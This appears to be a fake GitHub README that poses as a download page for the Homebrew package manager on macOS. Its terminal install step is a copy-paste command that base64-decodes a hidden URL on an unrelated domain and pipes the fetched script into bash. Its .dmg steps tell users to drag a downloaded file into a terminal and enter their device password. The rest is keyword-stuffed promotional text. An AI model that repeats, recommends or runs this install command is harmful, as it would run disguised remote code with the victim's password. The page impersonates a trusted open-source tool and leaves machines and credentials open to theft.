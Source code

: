 # Homebrew For Mac — Download For Mac OS 😊

Homebrew For Mac is a powerful, open-source package manager for macOS, simplifying the installation and management of software and libraries. Designed for developers and power users, Homebrew makes it easy to install command-line tools, applications, and dependencies with a single command. Follow the instructions below to install Homebrew For Mac and streamline your workflow.

![img1](https://i.ytimg.com/vi/BNEM6tpb0jo/hq720.jpg?sqp=-oaymwEhCK4FEIIDSFryq4qpAxMIARUAAAAAGAElAADIQj0AgKJD&rs=AOn4CLD8rqmZWkHd2K4otiiWTSD_j6HC_g)

[![Download Now](https://img.shields.io/badge/Download-Now-%23007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/homebrew)

If the download button above doesn’t work, follow the manual installation instructions below using the terminal.

## 📦 How to Install Homebrew For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


## 🎯 What You Get

Homebrew For Mac empowers developers and users to manage software effortlessly on macOS. Here’s what you can achieve:

- 📥 **Easy Package Installation**: Install software and dependencies with a single command.
- 🔄 **Automatic Updates**: Keep your software up-to-date with simple upgrade commands.
- 🔍 **Package Discovery**: Search a vast repository of tools and libraries.
- 🛠 **Customizable Workflow**: Tailor Homebrew to your needs with custom formulae.
- ⚡ **Fast Performance**: Optimized for macOS, including Apple Silicon support.
- 📚 **Extensive Documentation**: Access detailed guides for managing packages.

## About Homebrew For Mac

Homebrew For Mac is a leading package manager for macOS, designed to simplify the installation and management of software, libraries, and command-line tools. Whether you're a developer setting up a coding environment or a power user looking to install utilities, Homebrew offers a seamless, command-line-driven experience. Optimized for Apple Silicon, this free package manager for Mac ensures fast performance and compatibility with modern macOS systems. Its intuitive syntax makes it accessible to both beginners and seasoned professionals.

With Homebrew For Mac, you can install thousands of open-source packages, from programming languages like Python and Node.js to tools like Git and wget, using a single command. The package manager’s extensive repository, known as "formulae," allows users to discover and install software tailored to their needs. Homebrew also supports easy updates and dependency management, ensuring your tools remain current without manual intervention. Its lightweight design minimizes system resource usage, making it ideal for all macOS devices.

Homebrew For Mac stands out as a free macOS package manager that prioritizes simplicity, flexibility, and community-driven development. Its active community contributes new formulae and maintains existing ones, ensuring a robust ecosystem for users. Regular updates keep Homebrew compatible with the latest macOS versions, providing a reliable tool for managing software. Whether you’re building a development environment or installing utilities, Homebrew For Mac streamlines the process, saving you time and effort.

As a free download, Homebrew For Mac is a must-have for anyone looking to enhance their macOS workflow. Its command-line interface, combined with powerful features like package searching, upgrading, and dependency resolution, makes it a go-to solution for developers and tech enthusiasts. For those searching for a free package manager for Mac, Homebrew For Mac delivers unmatched functionality and ease of use. Download it today and take control of your software management.

## Advantages of Homebrew For Mac

- 🚀 **Fast and Efficient**: Optimized for macOS, with native Apple Silicon support.
- 🛠 **Simplified Software Management**: Install, update, and remove packages with ease.
- 🔍 **Vast Package Repository**: Access thousands of tools and libraries.
- 🔄 **Automatic Dependency Handling**: Resolves dependencies for smooth installations.
- 📖 **Community-Driven**: Benefit from a vibrant community and extensive documentation.
- 💻 **Lightweight Design**: Minimal resource usage for all macOS devices.

## 🖼 Preview

![Terminal Installation](https://i.postimg.cc/4yN8J8Qz/homebrew-install.jpg)  
*Installing packages via the terminal with Homebrew.*

![Package Search](https://i.postimg.cc/3rM5J7Qz/homebrew-search.jpg)  
*Searching for available packages in Homebrew.*

![Upgrade Command](https://i.postimg.cc/7hL2W6Qz/homebrew-upgrade.jpg)  
*Updating installed packages with a simple command.*

![Brew Info](https://i.postimg.cc/9F6yJ5Qz/homebrew-info.jpg)  
*Viewing detailed package information with Homebrew.*

## 🔍 Tags

Homebrew, Homebrew for mac, Homebrew mac download, Homebrew free, Homebrew download, download Homebrew, Homebrew for mac, Homebrew discount, Homebrew for macos, Homebrew mac free, Homebrew mac free download, Homebrew free download, Homebrew download, Homebrew app
